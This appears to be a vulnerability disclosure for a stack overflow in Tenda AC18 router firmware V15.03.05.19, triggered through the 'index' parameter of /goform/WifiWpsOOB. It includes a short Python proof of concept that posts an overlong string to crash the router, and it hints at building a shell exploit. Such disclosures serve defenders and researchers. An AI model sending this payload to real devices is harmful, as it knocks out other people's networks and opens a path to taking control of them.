 # Tenda AC18 V15.03.05.19 Stack overflow vulnerability

## Overview

- Manufacturer's address：https://www.tenda.com.cn/
- Firmware download address ： https://www.tenda.com.cn/download/detail-2683.html

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/WifiWpsOOB.   The contents obtained by the index parameter are passed to nptr, and then the contents matched by nptr  and put into the s without size checking, resulting in a stack overflow.
![](img/2.png#center)

![](img/3.png#center)
## POC

Run poc

```python
import requests

url = 'http://IP:port/goform/WifiWpsOOB'


headers = {"Cookie": "password=You cookie"}
data = {
    'index': 'a' * 10000
}

r = requests.post(url=url, headers=headers, data=data, proxies=proxies)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.
